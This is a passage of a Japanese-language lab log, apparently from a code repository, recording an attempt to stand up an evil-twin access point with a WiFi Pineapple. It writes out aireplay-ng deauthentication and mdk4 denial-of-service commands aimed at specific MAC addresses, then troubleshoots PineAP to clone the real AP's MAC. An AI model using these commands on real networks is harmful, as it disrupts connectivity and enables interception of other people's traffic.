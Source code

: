 ### 4. 偽APを立ち上げて接続させる: 失敗

- Evil Portalで偽APを立ち上げる
- 偽APのシグナルを強めてターゲットデバイスをDeAuthで本物のAPから断続的に切断させる
```sh
iwconfig wlan0-1 txpower 30 #送信電力を最大化
aireplay-ng --deauth 100 -a C0:5B:12:1E:88:DF -c 12:D1:5F:69:41:FC wlan1mon
```
- 何度も保存済みの本物APに接続仕様としてしまう。
- 施策
1. 本物のAPを完全に無効化する (DeAuth連打 + 本物のAPの電波干渉): 失敗
- 望む結果: 機器自体を落として、その間に同じSSIDの偽APをネットワーク上に表示させる
- 失敗：機器自体が落ちず、保存されたネットワークとしてターゲットのデバイスに存在し続けた。
- 学び：断続的なDeAuthによるターゲットのWiFi接続切断は成功したので、似たような他のSSID(WiFi_1337_5G)などにして偽APに接続させる方法は有効だと思う。
```sh
aireplay-ng --deauth 0 -a C0:5B:12:1E:88:DF wlan1mon #無限ループで本物のAPを落とす：失敗(落とせず)
mdk4 wlan1mon d -B C0:5B:12:1E:88:DF #より強力なDoS攻撃を試す: 失敗: (落とせず)
```
- mdk4 install:
```sh
opkg update #WiFi Pineappleのパッケージリストを更新
opkg list | grep mdk4 #opkg list | grep mdk4
opkg install mdk4 #mdk4をインストール
```
2．偽APの電波強度を本物より強くし、偽APのBSSIDを本物と同じにする
- バグによりPineAPを利用したSSIDの偽装が出来ない
- `Notice: In order to use some of these features, PineAP must first be enabled.`
- 参照: [problems-with-pineap-daemon-starting](https://forums.hak5.org/topic/39964-problems-with-pineap-daemon-starting/)
- 修正を試みる
- サイドバーのPineAPからでは上手く行かないので、コマンドラインから実行してみる。
- まずReconの際、`PineAP must first be enabled`と`start`が表示されるので、実行。
- 実行されているか確認: `ps aux | grep pineap`
- ![alt text](../assets/images/Screenshot_2025-02-09_134358.png)
- PineAPデーモン（pineapd）が実行中: `/tmp/pineap.conf`設定ファイルを利用している。
- Reconを止めてもう一度確認するとPineAPデーモンは確認できなかった：つまり、PineAPは単独で起動していない。
- コマンドラインから起動してみる：`/usr/sbin/pineapd /tmp/pineap.conf`
- 実行されているか確認: `ps aux | grep pineap` 
- ![alt text](../assets/images/Screenshot_2025-02-09_135353.png)
- PineAPデーモン（pineapd）が実行中: `/tmp/pineap.conf`設定ファイルを利用している。
- 実行確認できたので、UIのPineAPから`Source MAC`をターゲットと同じにして`Save Pine Settings`を実行。 → 失敗：`Notice: In order to use some of these features, PineAP must first be enabled.`
- 直接設定ファイルを変更する: `nano /tmp/pineap.conf`
